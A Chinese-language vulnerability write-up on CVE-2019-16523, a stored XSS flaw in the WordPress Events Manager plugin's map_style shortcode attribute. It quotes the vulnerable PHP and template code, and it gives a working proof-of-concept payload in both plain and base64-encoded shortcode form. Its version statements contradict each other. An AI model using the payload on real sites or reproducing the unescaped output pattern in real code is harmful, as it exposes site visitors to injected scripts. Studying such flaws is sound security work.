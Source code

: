 # （CVE-2019-16523）WordPress Plugin - Events Manager 储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/3253](https://www.zhihuifly.com/t/topic/3253)

# （CVE-2019-16523）WordPress Plugin - Events Manager 储存型xss

## 一、漏洞简介

WordPress的5.9.5版以上的事件管理器插件（又名“事件管理器”）容易受到存储的XSS的影响，这是由于编码不正确和插入提供给该插件提供的短码属性map_style（locations_map和events_map）的数据所致。

## 二、漏洞影响

wordpress <= 5.9.5

## 三、复现过程

### 1、利用过程

要利用此漏洞，攻击者需要创建或编辑帖子并插入上面提到的短代码之一。在此示例中，我们使用locations_map简码并将属性设置 map_style为的base64编码值

```
{"a":"test\"</script><script>alert(1)</script>"}。 
```

这将导致以下简码：

```
[locations_map test="" map_style="eyJhIjoidGVzdFwiPC9zY3JpcHQ+PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0PiJ9Cg=="] 
```

然后可以将该短代码插入到帖子中，然后由恶意用户发布。任何访问该职位的人都会受到有效载荷的影响，因此是XSS攻击的受害者。

### 2、详细分析

Events Manager插件提供了用于创建地图小部件的短代码，例如用于显示事件的位置。通过map_style使用简码中的属性提供自定义样式，可以直观地调整这些地图。为了防止XSS ，在shortcode属性内使用HTML 受到限制。但是，在这种情况下，可以注入任意HTML和JavaScript，因为该 map_style属性需要一个以base64编码的JSON对象。这允许绕过消毒。简码locations_map和events_map受此问题影响：

在em-shortcode.php（第43-56行），我们可以看到该属性是经过base64解码的，然后使用json_decode进行了解析。如果JSON语法有效，则将删除空格并将对象作为map_json_style变量传递到模板。请参见下面的代码段：

```
//add JSON style to map
$style = '';
if( !empty($args['map_style']) ){
    $style= base64_decode($args['map_style']);
    $style_json= json_decode($style);
    if( is_array($style_json) || is_object($style_json) ){
        $style = preg_replace('/[\r\n\t\s]/', '', $style);
    }else{
        $style = '';
    }
    unset($args['map_style']);
}
ob_start();
em_locate_template('templates/map-global.php',true, array('args'=>$args, 'map_json_style' => $style)); 
```

在templates/templates/map-global.php（第16-21行）中，变量无需进一步编码即可插入脚本标签内：

```
<script type="text/javascript">
    if( typeof EM == 'object'){
        if( typeof EM.google_map_id_styles != 'object' ) EM.google_map_id_styles = [];
        EM.google_map_id_styles['<?php echo $args['random_id']; ?>'] = <?php echo $map_json_style; ?>;
    }
</script> 
```

这样就完美的构成了xss payload